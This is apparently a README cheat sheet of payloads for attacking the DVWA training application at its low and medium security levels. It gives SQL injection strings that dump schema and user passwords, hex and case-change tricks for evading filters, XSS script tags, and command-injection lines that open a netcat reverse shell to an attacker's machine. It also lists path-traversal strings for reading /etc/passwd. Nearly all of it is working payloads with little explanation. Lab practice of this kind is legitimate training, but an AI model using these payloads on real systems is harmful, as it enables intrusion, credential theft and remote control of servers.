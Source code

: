 # SQL Injection
<h3>low security level</h3>

- To find all tables, from a database called “dvwa”: 
`1' UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema = 'dvwa'#`

 - To find all columns, from the database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema ='dvwa'#`

 - To find all column names of the table named “users”, from a database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'dvwa'#`

 - To get the content of one column of the table named “users”, from a database called “dvwa”: `1' UNION SELECT password,null FROM dvwa.users#`
<h3>medium security level</h3>
 
 - To find all tables, from a database called “dvwa”: `1 union select table_name,null from information_schema.tables where table_schema = 0x64767761`
 - Note: `0x64767761` is DB name `dvwa` but decoded to hex u can use this website for decoding : https://cryptii.com/pipes/hex-decoder
 
 - To find all columns, from the database called “dvwa”: `1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema = 0x64767761`

 - To find all column names of the table named “users”, from a database called “dvwa”: `1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 0x7573657273 AND table_schema = 0x64767761`

 - To get the content of one column of the table named “users”, from a database called “dvwa”: `1 UNION SELECT password,null FROM dvwa.users`

# XSS
<h3>low security level</h3>

- To reflect on the screen your name using reflected / stored XSS: `<script>alert('$YOUR_NAME')</script>`

<h3>medium security level</h3>

- To reflect on the screen your name using reflected / stored XSS: `<sCript>alert('$YOUR_NAME')</Script>`
- Note: use uppercase in the word `<script>` to ignore website filtering

# Command Execution 
<h3>low security level</h3>

- To show the Path: `; pwd`
- To show the list of files and directories: `; ls -la`
- First run in terminal: `nc -lvp <port>`
- To connect remotely with the kali-Linux using netcat nc in DVWA: `; nc <kali_ip> <port> -e /bin/bash`
- Note: u can get your `kali_ip` from writing in terminal: `ifconfig`
 => then u will get your kali ip: `inet <kail_ip>`
<h3>medium security level</h3>

- To show the Path: `| pwd`
- To show the list of files and directories: `| ls -la`
- First run in terminal: `nc -lvp <port>`
- To connect remotely with the kali-Linux using netcat nc in DVWA: `| nc <kali_ip> <port> -e /bin/bash`

# File Inclusion:

<h3>low security level</h3>

- To run a local file inclusion `/etc/passwd` and see the content of it: `../../../../../../etc/passwd`

<h3>medium security level</h3>

- To run a local file inclusion `/etc/passwd` and see the content of it: `....//....//....//....//....//....//etc/passwd`
